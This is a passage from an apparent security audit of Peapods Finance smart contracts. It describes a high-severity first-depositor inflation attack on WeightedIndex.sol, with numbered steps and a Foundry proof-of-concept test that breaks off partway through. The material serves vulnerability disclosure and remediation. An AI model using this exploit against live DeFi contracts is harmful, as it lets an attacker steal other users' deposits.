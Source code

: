 #### Developer Response

Resolved in https://github.com/peapodsfinance/contracts/commit/0cd797f2dcf22d7c04324f9762d59139ec896826

### 4. High - Pods are susceptible to the inflation attack

The first depositor in the [WeightedIndex.sol](https://github.com/peapodsfinance/contracts/blob/8bcb1c1da08017564f3f7e7bd7c54b130027607f/contracts/WeightedIndex.sol#L11) contract can inflate the value of a share to cause rounding issues in subsequent deposits.

#### Technical Details

Weighted pods are susceptible to a vulnerability known as the _Inflation Attack_, in which the first depositor can be front-run by an attacker to steal their deposit.

Let's imagine a user wants to bond X amount of certain asset in a pod.

1. The attacker makes an initial bond of a certain small amount of tokens. The attacker is minted Y index shares.
2. The attacker now calls `debond(Y - 1)`. This will cause the total supply of shares to be exactly 1.
3. The attacker donates X amount of tokens to the pod. This means the token balance is now `X + 1`.
3. The user bond transaction goes through, they are minted `amount * totalSupply / tokenBalance = X * 1 / X + 1 = 0` shares.
4. The attacker redeems their share and pulls all liquidity from the pod.

##### Proof of Concept

```solidity
function test_InflationAttack() public {
    // seed tokens
    deal(WETH, alice, 100e18);
    deal(WBTC, alice, 50e8);

    deal(WETH, bob, 100e18);
    deal(WBTC, bob, 50e8);

    // setup approvals
    vm.startPrank(alice);
    IERC20(WETH).approve(address(index), type(uint256).max);
    IERC20(WBTC).approve(address(index), type(uint256).max);
    vm.stopPrank();

    vm.startPrank(bob);
    IERC20(WETH).approve(address(index), type(uint256).max);
    IERC20(WBTC).approve(address(index), type(uint256).max);
    vm.stopPrank();

    // bond
    vm.prank(alice);
    index.bond(WETH, 0.1e18);

    uint256 aliceShares = index.balanceOf(alice);

    // burn everything except 1 share
    address[] memory null1;
    uint8[] memory null2;
    vm.prank(alice);
    index.debond(aliceShares - 1, null1, null2);

    // Lets say Bob wants to deposit 10 ETH
    uint256 bobAmount = 10e18;

    // Alice inflate reserves
    vm.prank(alice);
```